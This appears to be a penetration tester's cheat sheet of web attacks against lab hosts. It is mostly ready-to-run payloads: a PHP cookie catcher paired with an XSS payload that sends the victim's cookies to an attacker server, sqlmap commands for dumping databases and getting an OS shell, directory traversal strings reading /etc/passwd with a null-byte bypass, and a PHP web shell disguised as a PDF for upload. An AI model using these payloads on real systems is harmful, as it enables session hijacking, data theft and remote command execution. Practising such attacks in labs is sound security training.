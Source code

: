 ```dirsearch -u <url>```

    <?php
        $cookie = isset($_GET["test"])?$_GET['test']:"";
    ?>

install it in a apache server run php 

    service apache2 stop
    php -S 10.0.2.6:80

in the vulnerable field enter

    <script>location.href='http://10.0.2.6/index.php?test='+document.cookie;</script>


*SQL injection*

https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/ 

*SQLMap*

Look for anything that looks like it trigger a sql query. Admin page requests posts with "id=1" in the URI. That is a good indicator that sql injection is possible here.

For testing

    sqlmap -u "http://10.0.2.7/admin/edit.php?id=1" --cookie=PHPSESSID=<id>

For dumping

    sqlmap -u "http://10.0.2.7/admin/edit.php?id=1" --cookie=PHPSESSID=<id> --dump

For getting a shell

    sqlmap -u "http://10.0.2.7/admin/edit.php?id=1" --cookie=PHPSESSID=<id> --os-shell

**Local File Inclusion (LFI)**

https://www.vulnhub.com/entry/pentester-lab-php-include-and-post-exploitation,79/ 

Nikto

    nikto -h 10.0.2.8

 Directory Traversal

    ../../../../../../../../../../etc/passwd

doesn't work
Adding a null byte does the trick until php 5.3

    ../../../../../../../../../../etc/passwd%00

Inject a file -> Submit allows to upload a pdf. Create a file that has a pdf header but contains php otherwise.

*shell.pdf*

    %PDF-1.4

    <?php
        system($_GET["cmd"]);
    ?>
```